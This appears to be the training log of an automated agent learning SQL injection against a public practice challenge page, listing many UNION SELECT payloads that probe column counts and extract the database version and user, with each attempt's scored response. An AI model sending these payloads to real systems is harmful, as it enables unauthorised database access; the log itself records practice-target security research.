  0%|          | 372/1000000 [2:16:51<3291:35:28, 11.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 373/1000000 [2:16:51<2378:47:09,  8.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union selec

  0%|          | 374/1000000 [2:18:46<11234:21:40, 40.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 375/1000000 [2:18:47<7943:32:37, 28.61s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 376/1000000 [2:18:48<5641:48:43, 20.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.

  0%|          | 377/1000000 [2:19:29<7321:50:38, 26.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 378/1000000 [2:19:30<5197:23:36, 18.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 379/1000000 [2:19:30<3711:06:24, 13.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 380/1000000 [2:19:31<2677:29:42,  9.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 

  0%|          | 381/1000000 [2:19:47<3172:07:43, 11.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 382/1000000 [2:19:48<2283:01:53,  8.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 383/1000000 [2:19:49<1662:43:02,  5.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server respons

  0%|          | 384/1000000 [2:20:58<6941:54:59, 25.00s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 385/1000000 [2:20:59<4922:29:22, 17.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 386/1000000 [2:21:00<3518:59:19, 12.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 387/1000000 [2:21:00<2526:08:55,  9.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select

  0%|          | 388/1000000 [2:21:52<6044:51:13, 21.77s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' a

  0%|          | 389/1000000 [2:23:51<14214:49:52, 51.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union

  0%|          | 390/1000000 [2:25:18<17169:01:42, 61.83s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Se

  0%|          | 391/1000000 [2:25:24<12522:48:39, 45.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 392/1000000 [2:25:25<8859:27:20, 31.91s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 393/1000000 [2:25:27<6357:07:42, 22.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version()

  0%|          | 394/1000000 [2:25:34<4979:34:55, 17.93s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server res

  0%|          | 395/1000000 [2:26:41<9135:21:07, 32.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 396/1000000 [2:26:42<6474:09:59, 23.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Serv

  0%|          | 397/1000000 [2:28:01<11071:06:55, 39.87s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 398/1000000 [2:28:02<7830:45:04, 28.20s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQ

  0%|          | 399/1000000 [2:28:37<8412:37:15, 30.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing repo

  0%|          | 400/1000000 [2:30:21<14582:08:08, 52.52s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4

  0%|          | 401/1000000 [2:30:59<13364:28:05, 48.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 402/1000000 [2:31:00<9426:40:48, 33.95s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 403/1000000 [2:31:01<6674:08:29, 24.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
S

  0%|          | 404/1000000 [2:32:06<10079:07:24, 36.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 405/1000000 [2:32:07<7135:57:26, 25.70s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 406/1000000 [2:32:09<5148:56:24, 18.54s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 407/1000000 [2:32:10<3683:12:16, 13.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 408/1000000 [2:32:10<2613:18:22,  9.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 409/1000000 [2:32:11<1901:23:19,  6.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 410/1000000 [2:32:12<1408:17:23,  5.07s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 411/1000000 [2:32:13<1064:13:27,  3.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.

  0%|          | 412/1000000 [2:32:31<2253:24:05,  8.12s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 

  0%|          | 413/1000000 [2:33:37<7094:21:35, 25.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 414/1000000 [2:33:38<5054:03:24, 18.20s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 uni

  0%|          | 415/1000000 [2:33:55<4902:13:55, 17.66s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 416/1000000 [2:33:56<3508:37:46, 12.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response 

  0%|          | 417/1000000 [2:36:01<12879:16:23, 46.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'u

  0%|          | 418/1000000 [2:36:24<10992:54:55, 39.59s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 419/1000000 [2:36:26<7789:01:29, 28.05s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 420/1000000 [2:36:27<5547:28:38, 19.98s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 421/1000000 [2:36:28<3962:36:51, 14.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 

  0%|          | 422/1000000 [2:37:30<7951:54:20, 28.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select

  0%|          | 423/1000000 [2:38:37<11138:30:05, 40.12s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 424/1000000 [2:38:38<7874:30:44, 28.36s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 425/1000000 [2:38:39<5586:24:43, 20.12s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 426/1000000 [2:38:39<3986:28:40, 14.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 427/1000000 [2:38:40<2862:47:25, 10.31s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
